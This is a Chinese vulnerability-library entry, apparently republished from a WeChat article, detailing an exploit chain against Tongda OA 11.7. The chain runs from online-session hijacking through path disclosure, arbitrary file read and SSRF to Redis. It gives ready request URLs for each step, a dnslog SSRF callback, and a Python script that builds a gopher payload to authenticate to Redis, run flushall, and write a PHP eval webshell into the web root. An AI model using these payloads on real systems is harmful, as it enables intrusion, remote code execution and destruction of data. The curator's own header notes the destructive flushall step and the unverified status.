# 通达OA 在线会话冒用→路径泄漏→photo.php读取→img_download SSRF→Redis写入链

## 条目说明

- 对象与具体问题：通达OA；在线会话冒用→路径泄漏→photo.php读取→img_download SSRF→Redis写入链
- 版本、配置及部署条件：11.7；需用户在线、读取Redis配置、gopher支持、Redis CONFIG及Web写权限
- 认证与权限前提：先在线用户会话冒用，后续借会话
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 明确错分泛微；通达版本和auth_mobi.php等接口直接识别
- 五环链应多实体关联，不能合并成单一RCE；代码/具体返回很多仅截图
- Redis payload含flushall清空数据库，破坏性严重，必须警告/隔离而非示例检测
- Header Content-Disposition片段语法坏、Windows绝对路径及Redis口令为环境特定，需说明相应环境前提
- 保留在线用户限制与逐步前提，不能写任意离线用户登录

## 操作风险

含清空数据库或修改数据库结构的破坏性示例；命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/97UTw_gS-skIYpN3q9Jakg)


**01 漏洞简介**

  

漏洞组合拳：任意在线用户登陆 -> 敏感信息、路径泄露 -> 任意文件读取 -> SSRF -> redis -> Getshell

影响版本：

通达 OA v11.7 版本

利用条件：

需用户在线


**02 漏洞组合拳分析：**

  

①任意在线用户登陆漏洞：/mobile/auth_mobi.php  

这里 if 判断变量 $isAvatar 是否等于 1，并且 $uid 和 $P_VER 不能为空，满足则进入 if 分支，然后将 $uid 和 $P_VER 作为条件带入数据库中 user_online 表中查询，然后将结果数组中的 "SID" 赋值给 $P



当用户不在线时，数据库中会查询不到数据，则 $P 会没有值，然后会调用 relogin() 函数并且执行 exit 退出程序



relogin() 函数就是 echo 输出一下 "RELOGIN" 然后 exit 退出



接着 41-42 行，这里使用 session_id() 和 session_start() 重新设置当前 SESSION 会话 ID, 并重用现有会话，所以造成了任意在线用户登录漏洞


payload：

```
http://xxx.com/mobile/auth_mobi.php?isAvatar=1&uid=1&P_VER=0
```

②敏感信息、路径泄露：/general/approve_center/archive/getTableStruc.php

主要看 logPath，$filePath 其实就是日志文件的绝对路径，最后会直接 echo 输出整个结果数组，所以我们可以通过日志文件的绝对路径获取程序的安装路径



③ 任意文件读取漏洞：/ispirit/im/photo.php 关键代码：

首先 if 判断 $UID 需要有值并且需要大于 0，满足则进入 if 分支内执行，然后利用 file_exists() 函数判断变量 $AVATAR_FILE 是否存在，如果存在就直接调用 readfile() 函数进行读取，不存在会输出 "文件不存在"，那么我们就可以通过前面获取的绝对路径来读取 redis 配置文件内容来配合后面 ssrf 漏洞的利用

```
if (isset($UID) && (0 < intval($UID))) {
    ......
    if (file_exists($AVATAR_FILE)) {
      Header("Cache-control: private");
      Header("Content-type: $COTENT_TYPE_DESC");
      Header("Accept-Ranges: bytes");
      Header("Content-Length: " . sprintf("%u", filesize($AVATAR_FILE)));
      Header("Content-Disposition: file);
      readfile($AVATAR_FILE);
      exit();
   }
   else {
      echo _("文件不存在");
   }
}
```

payload：

```
http://xxx.com/ispirit/im/photo.php?AVATAR_FILE=D:/MYOA/bin/redis.windows.conf&UID=1
```

**④SSRF 漏洞：/pda/workflow/img_download.php**

通过判断 $PLATFORM 的值进入不同的 if 分支，当 $PLATFORM 等于 dd 时，将其 foreach 遍历后直接传入 remote_download() 函数执行



跟进 remote_download() 函数：/inc/utility_file.php

1814 行这里实例化了 Curl 类，然后调用类中的 get() 方法，将 $URL 作为参数传入



跟进 Curl 类中的 get() 方法：/inc/curl.class.php

这里首先判断传入的 $url 是否是数组，是就执行一些赋值操作，然后通过调用类中的方法设置一些参数，然后调用 exec() 方法执行



跟进 exec() 方法：

这里会调用原生的 curl_exec() 执行



payload：

```
http://xxx.com/pda/workflow/img_download.php?PLATFORM=dd&ATTACHMENTS=http://xxx.dnslog.cn
```


**03 漏洞复现：**

  

1、任意在线用户登录：



2、获取安装绝对路径：



3、读取 redis 配置文件：

获取 redis 密码：



获取绑定的端口信息：



4、ssrf 漏洞验证：



dnslog 收到请求：



5、SSRF 配合 Redis -> Getshell

利用脚本将需要执行的命令转换为 url 传 gopher 时正确的格式（基本通用），根据实际情况更改脚本中的参数值即可（看注释）：

```
import urllib.parse

protocol = "gopher://"
ip = "127.0.0.1"
port = "6399"

shell = '''\r\n\r\n<?php @eval($_POST[cmd]);?>\r\n\r\n'''  #写入webshell时需要使用换行，因为redis写入文件的时候会自带一些版本信息，不换行可能会导致无法执行
filename = "inc.php"
path = "D:/MYOA/webroot"
passwd = r"e235beKFj358Gi9e2" #redis密码

# 要执行的命令
cmd = [
     "AUTH {}".format(passwd),
     "flushall",
     "set 1 {}".format(shell.replace(" ","${IFS}")),  
     "config set dir {}".format(path),
     "config set dbfilename {}".format(filename),
     "save",
     "quit"
    ]

payload = protocol + ip + ":" + port + "/_"

def redis_format(arr):  # 转换成redis格式的数据
    CRLF = "\r\n"
    redis_arr = arr.split(" ")
    cmd = ""
    cmd += "*" + str(len(redis_arr))
    for x in redis_arr:
        cmd += CRLF + "$" + str(len((x.replace("${IFS}"," ")))) + CRLF + x.replace("${IFS}"," ")
    cmd += CRLF
    return cmd

if __name__=="__main__":
    for x in cmd:
        payload += urllib.parse.quote(redis_format(x))

    print(urllib.parse.quote(payload))
```

执行获取 payload：



然后利用 ssrf 漏洞发送 payload：



连接 webshell：



**漏洞组合拳第一部分就分析到这里，后续还有另一个漏洞组合拳，也挺有意思的，文笔浅显，如有错误欢迎各位师傅们交流提出**

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
